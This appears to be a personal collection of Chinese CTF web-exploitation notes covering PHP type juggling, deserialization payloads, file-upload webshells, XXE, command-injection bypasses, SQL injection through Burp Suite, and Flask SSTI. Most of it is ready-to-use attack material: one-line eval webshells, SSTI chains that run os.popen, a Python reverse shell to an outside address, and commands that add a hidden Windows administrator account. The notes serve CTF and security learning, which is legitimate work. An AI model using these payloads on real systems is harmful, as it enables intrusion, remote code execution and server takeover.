        同时满足 $a==0 和 $a  ------  a=abc

        同时 !is_numeric($b) 和 $b>1234 ------ b=1234a
    
        2. 值不一样结果要一样, md5 hash缺陷 0e开头弱类型
        QNKCDZO
        0e830400451993494058024219903391
         
        s878926199a
        0e545993274517709034328855841020
          
        s155964671a
        0e342768416822451524974117254469
        v1[]=aaa&v2[]=bbb&v3=[]=1

3. 空数组

        var dump(strcmp("aaa","flag"));  -->-1
        var dump(strcmp("flag","flag")); -->0
        var_dump(strcmp(array("aaa"),"flag"))
        v1=s878926199a&v2=s155964671a&v3=[]=1
        v1[]=aaa&v2[]=bbb&v3=[]=1

4. sha1加密相同 -传空数组

    遇数组返回 null
    
    v1[]=aaa&v2[]=bbb


        1.字符串与整数比较时会进行类型转换
        2.MD5 0e开头的哈希值
        3.MD5函数传入数组返回结果为NULL
        4.SHA1哈希函数传入数组返回结果为NULL
        5.strcmp函数传入数组返回结果为NULL

5. 调用函数的两种方式
```php
call_user_function(func1, param1)
func1(param1)
```

6. 常用序列化
```php
<?php

class Test {
    public $func;
    public $p;
}

$a = new Test();
$a -> func = 'system';
$a -> p = 'cat /flag';
echo serialize($a);
```
7. 
#### =>,->的意思

->是对象执行方法或取得属性用的。

=>是数组里键和值对应用的。


*  => 的用法
数组中用copy于数组的 key 和 value之间的关系

        $a = array('0' => '1', '2' => '4', );
        echo $a['0'];
        echo $a['2'];

* -> 的用法

类中用于引用类实例的方法和属性

    class Test{
        function add(){return $this->var++;}
        var $var = 0;
    }
    $a = new Test; //实例化对象名称
    echo $a->add();
    echo $a->var;

### %00 截断问题

http://web.jarvisoj.com:32785/

?page=xxxx

?page=xxxx%00 就可以截断

首先是把php上传（改文件名、改Content-Type，改文件内容，图片马），然后是如何解析并执行php（web容器的解析漏洞、php文件包含）。

    <?php @eval($_POST['pwd']);?>
    <script language="php">@eval_r($_POST['pwd'])</script>
### 序列化 Serilaze

    <?php
        class Shield {...}

        $shield = new Shield('pctf.php');
        echo serialize($shield);
    ?>

### 各类绕过

#### __wakeup()
__wakeup()方法中$this->username = 'guest'会让username重新赋值。在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行，我们可以将字符串中O:4:"Name"后面的2改为3及以上的整数

```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```
注意该类中使用的private来声明字段，private在序列化中类名和字段名前都要加上ASCII 码为 0 的字符(不可见字符)，如果我们直接复制结果，该空白字符会丢失，需要我们自己加上

`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

将该字符串作为select参数的值，GET方式发送过去就可以获得flag

http://题目链接/?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}

#### shell绕过
[命令执行的绕过技巧](https://www.dazhuanlan.com/2019/10/05/5d97c963e2513/)

$IFS和$IFS$9来绕过空格过滤

```
payload1：?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
payload2：?ip=|echo$IFS$9Y2F0IC9mbGFn|base64$IFS$9-d|sh

GXYCTF2019]Ping Ping Ping
https://www.gem-love.com/ctf/516.html
https://0day.design/2018/12/20/Swpu%20CTF%202018%20Writeup/
https://www.cnblogs.com/wrnan/p/12811449.html
https://www.cnblogs.com/yesec/p/12475478.html
https://www.google.com/search?q=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&oq=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8
```


### assert 执行


注意到 assert("strpos('$file', '..') === false") or die("Detected hacking attempt!") 这句话，查了一下 strpos，感觉可以拼接一下，但是自己不熟悉 PHP，只能去看题解。

可以执行任何 PHP 命令

构造 $file='.system('ls').'，意思就是用 . 来拼接 system 的返回结果

http://web.jarvisoj.com:32798/?page='.system('ls').'

http://web.jarvisoj.com:32798/?page='.system('cat templates/flag.php').'

看源码显示的flag。

### phpinfo 审计代码反序列化

问题在

    ini_set('session.serialize_handler', 'php');#ini_set设置指定配置选项的值。这个选项会在脚本运行时保持新的值，并在脚本结束时恢复。

`session.serialize_handler` 容易想到wooyun上的文章《PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患》。通过phpinfo页面，我们知道php.ini中默认session.serialize_handler为php_serialize，而index.php中将其设置为php。这就导致了session的反序列化问题。

<div style="color:red">php大于5.5.4的版本中默认使用php_serialize规则</div>

由phpinfo()页面继续可知，session.upload_progress.enabled为On。

当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过Session Upload Progress来设置session。

但是，这时就有一个问题，在题目代码中，没有某个值是用来接受我们传入的数据，并储存到$_SESSION中的。

其实我们是有办法传入$_SESSION数据的，这里就利用到了|的反序列化问题

思路很明显了，我们需要构造一个上传和post同时进行的情况，代码如下:

    <!DOCTYPE html>
    <html>
    <head>
        <title>test XXE</title>
        <meta charset="utf-8">
    </head>
    <body>
        <form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data"><!--     
    不对字符编码-->
            <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
            <input type="file" name="file" />
            <input type="submit" value="go" />
        </form>
    </body>
    </html>

注意enctype属性:

|  表头   | 表头  |
|  ----  | ----  |
| application/x-www-form-urlencoded  | 在发送前编码所有字符（默认） |
| multipart/form-data  | 不对字符编码。 在使用包含文件上传控件的表单时，必须使用该值|
| text/plain  | 空格转换为"+"加号，但不对特殊字符编码。 |

---
Code,在本机PHP环境执行下，得到反序列化结果。
    
    <?php
    class OowoO
    {
        public $mdzz='xxxxx';
    }
    $obj = new OowoO();
    echo serialize($obj);
    # O:5:"OowoO":1:{s:4:"mdzz";s:5:"xxxxx";}

payloay1:将xxxxx替换为`print_r(scandir(dirname(__FILE__)));`,得到序列化结果：

    O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}

为防止转义，在引号:前加上\。利用前面的html页面随便上传一个东西，抓包，把filename改为如下：

    |O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}

注意，前面有一个`|`，这是session的格式。


接下来就是去读取 `Here_1s_7he_fl4g_buT_You_Cannot_see.php`

由phpinfo可知当前的路径为`/opt/lampp/htdocs/`



将xxx处改为：

`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`

之后步骤如前，将filename改为：

`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

得到flag：

`CTF{4d96e37f4be998c50aa586de4ada354a}`


### php .user.ini

创建.user.ini文件----UTF8编码

    GIF89a                  //绕过exif_imagetype()
    auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。
    auto_append_file=a.jpg  //解析后进行包含

然后构造一个a.jpg  UTF8编码，内容如下：

    GIF89a
    <script language='php'> @eval($_POST['pass']);</script>

然后在上传路径需要有个可执行的php, 比如都上传到了 /uploads/123/下 有index.php

最后直接访问 /uploads/123/index.php 连接webshell.

条件：

1、服务器脚本语言为PHP
2、服务器使用CGI／FastCGI模式
3、上传目录下要有可执行的php文件
实例：上传.user.ini绕过黑名单检验

### php 代码分析

    $first ="hello";
    $hello ="world";
    echo $first." ".$$first;
    结果是 hello world
    $$first就是$hello，因为$first的值是hello
    
    var_dump($$args) , flag可能存在于 , 全局变量 $GLOBALS , ?args=GLBOALS

### php://filter元封装器
    名称  描述
    resource=<要过滤的数据流>这个参数是必须的。它指定了你要筛选过滤的数据流。
    read=<读链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（）分隔。
    write=<写链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（）分隔。
    <；两个链的筛选列表>任何没有以read=或write=作前缀的筛选器列表会视情况应用于读或写链。
    
    过滤器列表：http://php.net/manual/zh/filters.php
    
    --- web2
    页面1 http://xxx/?user='%23 -- 注释字符抓包，python生成字典。burp 暴破。
    本题限制了4位字符 '%1%23 刚好4位
    
    页面2 抓所看到 .viminfo 访问一下。
    找一个unicode字符和英文字符一样的。代替一下目标字符就能过waf
    
    页面3 
    使用path=http://127.0.0.1/&filename=1.txt
      写文件到upload目录下, 访问这个1.txt
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php info();?>&filename=1.txt
      发现可以访问，但是需要编码。
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.txt
    改成PHP文件 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.php
      用Hackbar上面的Encoding进行URL编码。空格要2次编码
      %20 改成 %2520
      %3D 是 =
    直接用它来执行命令 path=http://127.0.0.1/1.php?0=ls ../ 找到flag文件
    查看 path=http://127.0.0.1/1.php?0=cat ../flag_is_here.php 查看源代码
    https://www.freebuf.com/vuls/116705.html
    
    读取文件
    php://filter/read=convert.base64-encode/resource=show.php
    Burp Suite - Decoder 中可以解base64,
    
    构造Cookie问题
    ?line=1&filename=show.php
    用bp暴破， line=1字段 读取每一行 ，整合代码发现需要构造 Cookies: margin ,读取keys.php
    添加header头 Cookie: margin=margin; 
        filename=xxx替换成filename=keys.php的base64编码，读取完成。

### php 相关函数

vardump(array), 把array 转字符串

echo vardump(array), 把array打出来


pos(localeconv()) => '.'
scandir(pos(localeconv())) => scandir('.')

看一下当前目录下的文件，`?exp=echo(var_dump(scandir(pos(localeconv()))));`

assert
    
    bool assert(mixed $assertion[,string $description])，
    如果assertion是字符串，他会被assert()当做php代码执行。

就是说如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行

那么我们就可以构造payload

    ?page='.system("cat templates/flag.php").'


$tem_name = $_FILES['file']['tmp_name'];    // 取得文件后缀名 

$_FILES["file"]["name"] - 被上传文件的名称

$_FILES["file"]["type"] - 被上传文件的类型

$_FILES["file"]["size"] - 被上传文件的大小，以字节计

$_FILES["file"]["tmp_name"] - 存储在服务器的文件的临时副本的名称

$_FILES["file"]["error"] - 由文件上传导致的错误代码
## 地址猜想
phpmyadmin 地址

    http://pma.wechall.com
    http://pma.wechall.net
    https://pma.wechall.net


##mytest
https://blog.csdn.net/qq_42192672/article/details/82935802

https://github.com/eteran/edb-debugger/releases、

i春秋 实验吧 bugku hackinglab.cn

一句话木马常用查询

    whoami
    system
    ipconfig
    echo '<pre>';system("ipconfig");


### .git 泄漏

扫描 发现 .git 目录，

使用Web_Git_Extract-master.zip 提取

python2 git_extract.py http://106.75.72.168:9999/.git/

和  http://106.75.72.168:9999/flag.js 对比得到结果。

### xxe 漏洞, xml提交

以 Content-Type: application/xml 的方式提交，就能得到答案了。

1

    <?xml version="1.0"?>
    <!DOCTYPE ggmf[<!ENTITY xxe SYSTEM "file:///home/ctf/flag.txt">]>
    
    <tg>&xxe;</tg>

## Burp Suite 使用
Intuder 注意, payloads最下面转义(url encode)有时候需要关掉

User Option - Display - Http Message Display, 使用宋体

排除地址, 拦截的时候 Proxy - Intercept - Action - Don't intercept request =>

    Target-scope include .* .* .*
    Target-scope exclude .*firefox.*
    Proxy-Option-Intercept Client Requests, 添加does not match [url]

拦截指定网址

    方法1 “Proxy”选项卡--选择“Options”菜单--往下看到“Intercept Client Requests”节区
    方法2 你可以使用“include in-scope items only(仅仅包括在范围内的项目)”以减少数据必须保存量。


[Intuder](https://blog.51cto.com/laoyinga/2151018)
    
    几种模式对应不同的payload数量

    结果过滤
        flag\{.*\}
        ctfhub\{.*\}

### Burp Suite
refresh 自动刷新的变量字段。
Options - Grep Match 常用，密码错误的时候，可以添加一个匹配关键字。开始攻击后会多一个字段。[^1]

      结果中也可以过滤(在标签Result下面)，
      grep - match 添加过滤字段 login_error,比返回长度效果更好。
      runtime file 每行作为一个
      custom iterator , 可以生成像 username@@password  ，选posisiton 2 @@, position3 password,
      copy other payload , 两次payload值要一样时使用。
  
wordpress , ?author=1 可以知道 id=1的用户
### Burp Suit 和 Hackbar 使用一句话木马

注意使用 POST 方法提交哦。

__1、 Burp Suite：__

1) 拦截到页面请求, 将其转到 Repeater, 并在最下方加入请求参数:

    shell=system("find / -name 'flag*'");

2) 查看 Response, 最下方有目标文件路径:3) 修改 Repeater 中的请求参数为:

    shell=system("cat /var/www/html/flag.txt");
4) 查看 Response 中的结果:

__2､ HackBar:__

1) 在 HackBar 中输入相应 URL 和请求参数, 请求参数为需要执行的 shell:

    shell=system("find / -name 'flag*'");

2） 在原先的页面可以看到相应结果， 在最下面即是目标文件的路径， 如下图所示：

3） 继续在 Hackbar 中执行命令：

    shell=system("cat /var/www/html/flag.txt");

4） 在原页面即可查看到 flag.txt 中的 flag 内容：

### Burp Suite暴力破解一句话木马
一句话木马

    PHP:<?php @eval($_POST['pwd']);?>
    PHP:<?php @eval(_POST['v5estOr']);?>
    <script language="php">@eval_r($_POST['cmd'])</script>
    ASP:<%eval request("v5estor")%>

一般来说,一句话木马通过POST方式的传参方式如下(以写出字符的语句为例):

    PHP:v5estor=echo "password is v5estor";
    ASP:v5estOr=response.write("password:v5estor")

已确定一句话木马地址为hack.php, 用hackbar 捕获hack.php 请求， 发送到Intruder ,将 v5estor 添加为变量，暴破一句话木马变量地址。grep - match 字段添加，password is 。 暴破后正确输出 password is 为成功为一句话木马的变量。
#### 图片马

winhex打开图片，在最后粘贴马。

### Burp Suite 破解文件上传
普通难度： 

    抓包, 1. 改 content-type即可。 image/png
    抓包, 2. 改 file-name 即可。 image/png

High级别---系统认可图片

    copy test.png/b+test.html/a a.png
    test.html:  `<script>alert(1)</script>`

用来上传php, 比如 `copy test.png/b+hack.php/a caidao.png`

hack.php 里写一句话木马  :<?php @eval(_POST['1']);?>

查看有没效果

http://192.168.1.107/dwva/vulnerabilities/fi/?page=/hackable/uploafs/caidao.png   

hackbar

URI： http://192.168.1.107/dwva/vulnerabilities/fi/?page=C:\www\DWVA\hackable/uploads/hack.png

    POST:1=echo '<pre>';system('ipconfig')
    POST:1=echo '<pre>';system('net user hack 123456/add');
    POST:1=echo '<pre>';system('net localgroup administrators hack /add'):

### Burp Suite配合SQLmap实现被动式注入发现

    User Option - Misc - Logging, √Proxy Request ,选择一个文件位置保存。
    打开文件搜索请求，确定请求存在。
    sqlmap.py -r 文件目录
    sqlmap.py -r C:\log\1.txt --batch
    找到并查看 outout文件。在txt中找到注入链接, 比如，测试
    sqlmap.py -u "http://192.168.1.102/inject.php?id=2" --dbs

### Burp Suite数据获取测试
用BP抓个包 比如 http://192.168.1.102/inject.php?id=1

在1后面加a 1$a$ a设置成字段。

Payloads- Payloads Options , Load , 找 FuzzLists目录下的 sqli-union-select

用Intruder 开始攻击, 查看结果-Response

查看结果后 确定为3个字段，在结果里右击查询3字段的发送到repeater, Go一下。
   在params里 select%201,2,3 from a   测试a表是否存在。显示 doesn't exist, 将它 设置成Grep Match 字段进行过滤。
   payloads load,  common-tables进行start attack。

查看结果， 确定admin为表名。继续修改params 猜列名

        select%201,a,3%20from%20admin 显示 unkonwn column ，将请求必到Intruder,
          将 a 设置成变量， unkonwn column为过滤字段。
          payload - load, comman - column
          start attack,查看结果。
          确定了id , password, 列。
        -1 union all select%201,password,3%20from%20admin
        -1 union all select%201,password,3%20from%20admin limit 0, 1
发到 Intruder

    id=1 union all select 1,2,3 from admin#
    id=1 union all select 1,password,3 from admin#
    id=1 union all select 1,concat(id, username, password),3 from admin#
    id=1 union all select 1,concat(id,0x7c, username,0x7c, password),3 from admin#
     0x7c是管理符 | 

发到intruder, 

      limit%20$0$,1 这里将0改为字段了。limit参数为：偏移量，最大数目

      payload type: numbers,
        from 0, to 3, step 1,
      start attack

Grep Extract, add选中后会自动正则。 清除多余的过滤。b

菜单栏 save - result table, 只留一个正则。保存

### Burp Suite目录与文件扫描测试
1.抓包 history中， 发到Intruder

2.Positions

      payload 加载  php去重复.txt 字典
      payload 选项卡 中有 Payload Encoding √要去掉 （否则会编码/符号）
      start attack
      在结果列表， Filter 只勾2xx

## Python

反弹shell
    
    python反弹shell

    /no_one_know_the_manager?key=自己填key&shell=python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22xx.xx.xx.xx%22,9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27

### ssti 服务器模板注入
`buuoj [RootersCTF2019]l_<3_Flask`

[[pasecactf_2019]flask_ssti](https://guokeya.github.io/post/zIiwsY95N/)


内置函数 `print(help(dir(__builtins__)))`

ssti方式
/hello?name={{7*7}}
/hello?name={{config}}
pip install flask-unsign
flask-unsign --sign --cookie "{'balance': 666666}" --secret "XMM<XMK"

原题目通过lfi, 文件穿越
/downloadj?image=1.jpg
/downloadj?image=../../../../../../../etc/passwd/

查看程序环境变量
/downloadj?image=../../../../../../../proc/self/environ
看到secret_key

#### PIN码

debug 才有PIN码问题
{{...}}报错

得到，PIN码怎样访问？

name={{...}} 看报错信息，

找一行，点右边的terminal图标，输入PIN码。进入console。
```python
## console中执行
import os
os.system('ls') # 并没有得到返回输出全部内容，返回了0.只得到返回值
os.popen('ls').read() # 得到了结果。
os.popen('ls /').read()
os.popen('ls /app').read() # 发现 flag
os.popen('cat /app/flag').read()
也可以写个反向shell，拿到更多权限。
```
#### ssti注入
测试 /hello?name=  

输出了结果，说明有漏洞

```python
/hello?name={{"".__class__}} 返回str
/hello?name={{"".__class__.__base__}}
/hello?name={{"".__class__.__base__.__subclasses__()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302]}} # popen
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /app").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}


```
生产环境不要开debug模式

## TODO
扫描添加.git
